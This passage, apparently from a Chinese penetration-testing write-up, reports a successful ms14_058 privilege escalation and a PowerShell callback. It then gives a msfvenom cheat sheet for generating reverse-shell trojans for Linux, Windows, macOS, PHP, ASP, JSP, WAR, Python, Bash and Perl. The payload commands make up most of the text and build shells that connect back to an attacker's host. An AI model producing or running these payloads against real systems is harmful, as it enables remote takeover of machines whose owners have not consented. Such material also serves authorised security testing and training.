 利用 ms14\_058 提权成功

### powershell 上线：

通过制作 powershell 来上线：

[![](assets/1701827767-6c5e93b33fcdbb2dfe3d466714dbe22b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191228-ae005d38-9103-1.png)

### MSF 上线：

#### msf 生成木马：

```plain
Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=< Your Port to Connect On> -f elf > shell.elf

Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.machoWeb Payloads

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

Python
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```
